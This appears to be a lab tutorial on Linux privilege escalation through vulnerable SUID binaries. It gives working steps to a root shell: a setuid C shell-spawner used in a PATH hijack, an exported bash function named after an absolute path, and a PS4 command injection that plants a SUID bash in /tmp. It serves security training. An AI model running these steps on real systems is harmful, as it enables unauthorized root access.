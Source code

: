 
Suppose we have a `/usr/local/bin/suid-env` SUID executable is vulnerable due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

```bash
/usr/local/bin/suid-env
```

Run strings on the file to look for strings of printable characters:

```bash
strings /usr/local/bin/suid-env
```

**One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.**

Compile this code into an executable called `service`. This code simply spawns a Bash shell.

Here is the code:

```c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

Compile it:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Now we have to add the path of the `service` file to the `PATH` variable, for example if the file is at `/home/user` we run the following command:

```bash
PATH=/home/user:$PATH
```

Finally, we run the `suid-env` command:

```bash
/usr/local/bin/suid-env
```


### Abusing Shell Features: Method 1

What if the file uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Suppose the `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env`.

Verify this with strings:

```bash
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }   export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

The behavior is documented in [bash documentation command search and execution](https://www.gnu.org/software/bash/manual/bash.html#Command-Search-and-Execution). The behavior is standardized in [POSIX Shell command language, section Command search and execution](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_09_01_01).

### Abusing Shell Features: Method 2

**Note:** This method will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Now run it:

```bash
/tmp/rootbash -p
```
